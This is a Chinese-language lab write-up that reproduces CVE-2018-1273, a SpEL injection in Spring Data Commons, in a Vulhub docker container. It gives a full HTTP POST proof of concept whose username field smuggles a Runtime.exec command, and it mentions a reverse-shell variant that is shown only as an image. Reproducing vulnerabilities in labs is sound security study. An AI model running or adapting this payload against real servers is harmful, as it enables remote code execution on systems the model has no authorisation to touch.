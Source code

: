 ```php
cd vulhub-master/spring/CVE-2018-1273
sudo docker-compose up -d
```

![image-20210522094338512](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-abc327fc2d58c7672033dfb186479c3db445302b.png)

#### 漏洞复现

访问

```php
http://192.168.175.209:8080/users
```

![image-20210522094409667](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-362b622620b56941914149ff766c22f4ffa1a648.png)

#### 漏洞验证

进行抓包

![image-20210522094709560](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3923b4de68e8de01f10f067d773727f7e8e29ea2.png)

#### Poc

```php
POST /users?page=&amp;size=5 HTTP/1.1
Host: 192.168.175.209:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Origin: http://192.168.175.209:8080
Connection: close
Referer: http://192.168.175.209:8080/users
Upgrade-Insecure-Requests: 1

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/a001")]=&amp;password=&amp;repeatedPassword=
```

![image-20210522094845931](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fd3e86c9b052f9fc35a3fd7eee425cf5a2671126.png)

执行之后呢 我们可以去docker底层看一下

![image-20210522094958191](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-79a528690910f1a3ed558b2bc8176b7fc34b6184.png)

#### Poc-2-反弹shell

bash反弹一句话

![image-20210522095153542](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-db74adbf3eb659d3af00d0073a9fca68514b530c.png)
